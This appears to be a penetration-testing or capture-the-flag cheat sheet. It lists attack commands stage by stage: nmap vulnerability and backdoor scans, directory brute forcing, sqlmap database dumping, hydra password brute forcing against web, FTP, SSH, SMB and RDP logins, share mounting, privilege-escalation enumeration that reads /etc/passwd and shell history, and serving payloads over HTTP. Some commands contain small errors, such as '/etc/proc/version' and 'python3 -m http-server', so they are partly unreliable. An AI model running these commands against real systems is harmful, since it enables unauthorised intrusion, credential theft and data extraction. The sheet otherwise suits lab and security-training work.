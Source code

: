 # 1° Scan Nmap 

$sudo nmap -Pn -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum,http-robots.txt [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor [Target_IP] - ProFTPD 1.3.3c

$sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor [Target_IP] - vsFTPd 2.3.4

#nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount [Target_IP]

#nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users [Target_IP]

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster -u http://example.com -x php,html,js,txt -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap

$sqlmap -u http://Target_IP/login.php --forms --dump

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

# 5° Gain Access

http://example.com/login

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw Target_IP:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$smbclient //Target_IP/shared/dir

# 6° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

# 7° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000
